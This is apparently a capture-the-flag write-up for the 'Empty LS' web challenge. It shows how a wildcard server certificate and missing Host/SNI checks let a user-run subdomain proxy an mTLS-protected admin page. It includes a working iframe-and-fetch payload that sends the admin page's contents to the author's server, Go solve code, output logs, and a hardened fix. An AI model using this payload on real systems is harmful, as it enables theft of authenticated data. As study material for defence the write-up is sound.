

<div align="center">

#  <br> EMPTY LS

[](https://shields.io/)
[](https://shields.io/)
[](https://shields.io/)
</div>

## Prompt

> Check out https://www.zone443.dev , a community of sites with an extremely secure shared authentication mechanism.
> 
> P.S., The admin has a site running at https://admin.zone443.dev .
> 
> Note: Please don't request many subdomains. You don't need many subdomains to solve this challenge. Don't create a ton of subdomains in an attempt to exploit the subdomain creation process; there's no bug there that you should exploit. If a ton of subdomains get created, we may have to delete some old ones.
> 
> Note: There is a very high chance other teams will find your subdomain(s).
> 
> Note: If you have problems with https:// cert quotas, try an alternate CA, such as one from these lists:
> https://www.xf.is/2020/06/30/list-of-free-acme-ssl-providers/
> https://github.com/acmesh-official/acme.sh#supported-ca .
> 
> Update: The admin now has a slightly different browser that properly supports Buypass certificates.
> 
> ```
> https://www.zone443.dev
> https://admin.zone443.dev
> ```

## Files

* [example.go](example.go) - Provided starter code
* [client.go](client.go) - Client to interact with and test the admin/example sites
* [solve.go](solve.go) - Solution program source
    - [go.mod](go.mod) - Go module
    - [go.sum](go.sum) - Go module checksums
* [certs/](certs) - Certificates 
    - [cert_and_key.p12](certs/cert_and_key.p12) - Client certificate and key (password `changeit`) 
        - [test.pem](certs/test.pem) - Test certificate extracted from p12
        - [test.key](certs/test.key) - Test key extracted from p12
    - [admin.pem](certs/admin.pem) - Admin certificate extracted from admin request to server
    - [clientca.crt.pem](certs/clientca.crt.pem) - Client CA certificate
    - [fullchain.pem](certs/fullchain.pem) - Certificate chain from Let's Encrypt for `lrindels2.zone443.dev`
    - [privkey.pem](certs/privkey.pem) - Let's Encrypt certificate private key
* [solve.out](solve.out) - Output of solution program 
* [flag.txt](flag.txt) - Flag
* [hardened.go](hardened.go) - Hardened version of sample code

## Solution

### Zone443 
The domain `*.zone443.dev` hosts a collection of sites that all use mutual TLS, or mTLS for short (hence the challenge name). The gist of mTLS is that instead of just the client authenticating the server like in normal TLS, the server can also request certificates from the client to verify the client's identity. You can read more about it on [Wikipedia's Mutual Authentication page](https://en.wikipedia.org/wiki/Mutual_authentication#mTLS) or in [this RFC](https://datatracker.ietf.org/doc/html/rfc5246#section-7.4.6).

The first URL (https://www.zone443.dev) provides more exposition and gives us some links to check out. We can register a user, register an account, and "contact" the admin. 

<div align="center">


</div>

#### Account Registration
On the account registration page there is an input field for us to choose a username. Submitting the form triggers a download for a PKCS#12 file that contains a client certificate and the corresponding private key. The one I requested can be found at [certs/cert_and_key.p12](certs/cert_and_key.p12) with username `test` and password `changeit`.

<div align="center">


</div>

We can make sure it works by installing [cert_and_key.p12](certs/cert_and_key.p12) then navigating to the second provided URL (https://admin.zone443.dev):

<div align="center">


</div>

#### Site Registration
The registration page lets us pick a subdomain and an IP. I picked the subdomain `lrindels` and pointed it to one of the global IPv6 addresses on my laptop. This seemed to work at first, but the admin couldn't reach the site so I made another subdomain `lrindels2` and pointed it to my router's public-facing IPv4 address, then enabled port-forwarding to my laptop.

<div align="center">


</div>

This page also includes some [example code](example.go) and the [client CA cert](certs/clientca.crt.pem) to get us started. We need to install Go and get some good old-fashioned server certificates for our website before we can run it.  

I got my certificates from the [Let's Encrypt CA](https://letsencrypt.org/) using the [Certbot](https://certbot.eff.org/) utility:

```
$ brew install certbot
$ sudo certbot certonly --standalone -d lrindels2.zone443.dev
```

This provides the [`fullchain.pem`](certs/fullchain.pem) and [`privkey.pem`](certs/privkey.pem) certificates we need to be able to host a verifiable HTTPS site:

```
$ go run example.go
2021/07/20 23:29:08 About to listen on 443
```

Navigating to https://lrindels2.zone443.dev in the browser and supplying the client certificate works!

<div align="center">


</div>

The example code outputs the following:

```
2021/07/20 23:30:15 Got req
2021/07/20 23:30:15 Hello, test.
2021/07/20 23:30:15 Done
```

#### Admin Contact
The last link on the Zone443 home page lets us send a request to then admin.

<div align="center">


</div>

After figuring out that the admin doesn't like IPv6 or any port other than 443, I finally made contact with the admin using this input:

```
https://lrindels2.zone443.dev
```

Output from the example code:

```
2021/07/20 23:30:15 Got req
2021/07/20 23:30:15 Hello, admin.
2021/07/20 23:30:15 Done
```

### Rabbit Holes 

#### iframes
At first I ignored the whole mTLS bit and instead tried more standard web attacks. I set up an iframe on the server and had it point to the admin site. Through trial-and-error, a few teammates and I worked out that the admin iframe wasn't loading because the admin wasn't supplying its certificate to the admin page.

I also tried disabling Client Authentication on my server in the hopes that the admin would be grant its certificate to the first certificate pop-up, but this failed as well.  

Even if the admin had loaded the iframe correctly, it wouldn't be possible for us to see the contents because the frame is cross-origin. The iframe and host page both share the domain `.zone443.dev`, but both the host *and* the iframed site would need to set `document.domain=zone443.dev` for the contents of the iframe to be accessible. I looked into some other sibling subdomain attacks, but most of what I found involved cookies.

#### Certificate Errrors
There had to be some reason for the admin to visit our site. One possibility was that we needed to find an error in the admin's certificate or repurpose it in some way. I set up the server to save the certificate of the admin when it connected and then checked it for any sign of vulnerability. The contents of the admin certificate seemed totally normal. 

#### Certificate Order
Zone443 looks like a pretty secure setup. There are a million tutorials out there that teach you how to set up mTLS with Go and the example code doesn't seem to do anything different. However, there isn't a lot of information out there about how to properly verify the identity of the client after the TLS handler has determined that a client has a valid, signed certificate.

```go	
// If there are multiple certificates, just take the first one, which is the leaf.
// This is not expected to ever happen because we don't issue intermediate CA certs.
user := req.TLS.PeerCertificates[0].Subject.CommonName
``` 

The assumption that `PeerCertificates[0]` is always going to contain the common name of the connecting client seemed suspiciously bold, so I tried a few things. 

It turns out you can throw extra certificates into the client certificate chain passed to the server without triggering an error. I extracted the admin certificate from a request to my server, then added the admin certificate to the chain passed to the admin server:

```go
admin_cert := readPem("certs/admin.pem")

// add admin cert to chain
// surprisingly this throws no error
// server can see this in PeerCertificates[1]
cert.Certificate = append(cert.Certificate, admin_cert.Raw)

// Create a HTTPS client and supply the certificate
client := &http.Client{
    Transport: &http.Transport{
        TLSClientConfig: &tls.Config{
            MaxVersion:   tls.VersionTLS13, // test different TLS versions
            Certificates: []tls.Certificate{cert},
        },
    },
}
```

It can't be the first certificate, but it can be in any position after. The server is satisfied once it validates that the first certificate is signed by the client CA, ignoring any extra certificates in the chain. `PeerCertificates` contains the injected certificate from this example in `PeerCertificates[1]`! 

I was excited about this discovery, but after reading the [`tls`](https://pkg.go.dev/crypto/tls) package's documentation and source for far too many hours I begrudgingly accepted that `PeerCertificates[0]` was always going to be a properly validated leaf certificate.

#### Downgrade Attacks
After a good night's sleep I had a whole new list of things to try. I threw the admin domain into an [SSL Site Tester](https://www.ssllabs.com/ssltest/) thinking that if there was anything wrong with TLS on the site, it would find it. 

It did find that the admin server supports TLSv1.0 and TLSv1.1.
<div align="center">


</div>

I starting researching downgrade attacks to see if I could do anything interesting by man-in-the-middling the admin and its connection to the admin page. But first, I had some doubts about whether or not the admin would even provide its certificate to the admin page because of what happened with the iframes.

I set up a TCP proxy on port 443 and forwarded the traffic to `admin.zone443.dev`. Then I watched the traffic in Wireshark to see if I could tell whether or not the admin had provided a client certificate. While testing this out, I tried accessing the proxy through my browser and was surprised by what I saw.

<div align="center">


</div>

**This should *not* have happened**. Accessing the admin site through a TCP proxy on a different domain should have raised a big red flag to the browser. Why didn't it notice that it received a certificate for `admin.zone443.dev` when trying to access `lrindels2.zone443.dev`?!

Viewing the `admin.zone443.dev` certificate sheds more light on the situation. 
<div align="center">


</div>

The [SAN](https://www.entrust.com/blog/2019/03/what-is-a-san-and-how-is-it-used/) that the browser is using to validate the domain of the server has a wildcard! This means that any subdomain can proxy requests to the admin page without triggering any warnings. 

This was surprising, but it still took a while for it to sink in why this is a big deal.

### Exploit
If this were vanilla HTTP it would be obvious to just read the proxied connection and get the flag. But since this is TLS, the proxied traffic is completely unreadable right?

Kind of. The proxied traffic will be impossible to read, but we can take advantage of the fact that we can make requests to `lrindels2.zone443.dev` and have it return the contents of the admin page. Before, iframes and cross-origin requests were off-limits because of the different domain, but now we can make it seem like they're on the same domain! Here's the game plan:

1. Serve a payload on `lrindels2.zone443.dev` that contains an iframe that also points to `lrindels2.zone443.dev`.
2. Request contact from the admin
3. After the payload is sent to the admin, stop serving the payload and instead proxy requests through to `admin.zone443.dev` so that the request for the iframe from the admin will retrieve the contents of the admin page. 
4. Start *another* server on a different port to retrieve the exfiltrated contents
5. Once the admin has loaded the iframe the admin page, send the contents to `https://lrindels2.zone443.dev:80` 

This was the payload I used:

```go
return "<html>" +
"<body>" +
"<script>" +
`function load(frame) {
        var exfil = encodeURI(window.frames[0].document.body.innerHTML)
        fetch('https://lrindels2.zone443.dev:80/loaded-'+exfil)
    };` +
"</script>" +
"Hello, " + user + ".\n" +
"<iframe src='/' id='flag' title='Test Panel' onload=\"load('this')\"></iframe>\n" +
"</body>" +
"</html>"
```

The full solve code is in [solve.go](solve.go), but here's an excerpt of the main logic:

```go
// listen for request channel to be filled
// stop first server upon first request
go func() {
    <-stop
    s.Shutdown(context.Background())
}()

// start serving on first port
serve(&s)

// proxy 443 traffic to admin (requested by admin because of iframe)
go func() {
    var p tcpproxy.Proxy
    addr := fmt.Sprintf(":%d", port)
    p.AddRoute(addr, tcpproxy.To("admin.zone443.dev:443"))
    log.Print("Starting proxy on " + addr)
    p.Run()
}()

// listen for request channel to be filled
// stop second server upon finding flag
go func() {
    <-stop
    s2.Shutdown(context.Background())
}()

// start serving on second port
// request will have invalid path that contains flag
serve(&s2)
```

Running this with `go run solve.go` and requesting that the admin visit https://lrindels2.zone443.dev prints the flag!

```
2021/07/18 21:51:43 About to listen on :443
2021/07/18 21:51:55 Got request from 34.77.5.6:41711
2021/07/18 21:51:55 Client authenticated as admin
2021/07/18 21:51:55 Done sending payload
2021/07/18 21:51:55 Sending stop signal to server
2021/07/18 21:51:55 Serving on :443 is over: http: Server closed
2021/07/18 21:51:55 About to listen on :80
2021/07/18 21:51:55 Starting proxy on :443
2021/07/18 21:51:56 Got request from 34.77.5.6:41713
2021/07/18 21:51:56 Bad path: /loaded-<pre style="word-wrap: break-word; white-space: pre-wrap;">Hello, admin. The flag is: CTF{m0_ambient_auth_m0_pr0blems} .\n</pre>
2021/07/18 21:51:56 Serving on :80 is over: http: Server closed

Flag: CTF{m0_ambient_auth_m0_pr0blems}
```

<div align="center">


</div>

## Mitigations
So what went wrong? Mutual TLS is supposed to be the best of the best, but in this challenge it couldn't even stand up to a simple subdomain oversight.

### No Certificate Wildcards

If the server certificate didn't have `*.zone443.dev`, this attack wouldn't have been possible. But it would be incovenient to get new certificate for every subdomain on a site. The wildcard in this challenge enables the trusted domains `www.zone443.dev` and `admin.zone443.dev` to use the same certificate. If the site wasn't also providing subdomains to untrusted users this wouldn't be an issue at all. 

### Host Header and SNI Checking

In Discord after the competition ended, the challenge author answered some questions and had this to say:

> As for not checking the Host header and SNI, yes, that's basically the vulnerability. The provided example code given in the challenge has the same vulnerability to help players find the vulnerability. But I think this is a very frequent behavior. And normally not checking the Host+SNI isn't actually a vulnerability. If a server is authenticated by cookies, not checking the Host+SNI isn't actually a vulnerability. The vulnerability only arises because of the combination of not checking the Host+SNI and mTLS.

Rather than getting new certs for each trusted subdomain, a better solution might be to just check the Host header and [Server Name Indication (SNI)](https://en.wikipedia.org/wiki/Server_Name_Indication) information provided by the client. This does depend on the attacker being unable to modify the Host header or SNI, but modern browsers prevent that anyway. Adding two small checks to the request handler in our example produces [hardened.go](hardened.go). If the admin page had these checks in place (replacing my domain name with its own), the proxied request would have an invalid Host header and SNI preventing the return of the flag:

```go
// Host header check
if req.Host != "lrindels2.zone443.dev" {
    return "Invalid host header.\n"
}

// SNI Check
if req.TLS.ServerName != "lrindels2.zone443.dev" {
    return "Invalid SNI.\n"
}
```

## Resources

* **Wikipedia mTLS**: https://en.wikipedia.org/wiki/Mutual_authentication#mTLS
* **RFC 5246 TLSv1.2 Client Certificate**: https://datatracker.ietf.org/doc/html/rfc5246#section-7.4.6
* **Go**: https://golang.org/
* **Let's Encrypt**: https://letsencrypt.org/
* **Certbot**: https://certbot.eff.org/
* **Mozilla Document.domain**: https://developer.mozilla.org/en-US/docs/Web/API/Document/domain
* **SSL Server Test**: https://www.ssllabs.com/ssltest/
* **Go TCP Proxy**: https://github.com/inetaf/tcpproxy
* **Wikipedia SNI**: https://en.wikipedia.org/wiki/Server_Name_Indication
* **Go TLS**: https://pkg.go.dev/crypto/tls
* **EMPTY LS Source**: https://github.com/google/google-ctf/tree/master/2021/quals/web-empty-ls
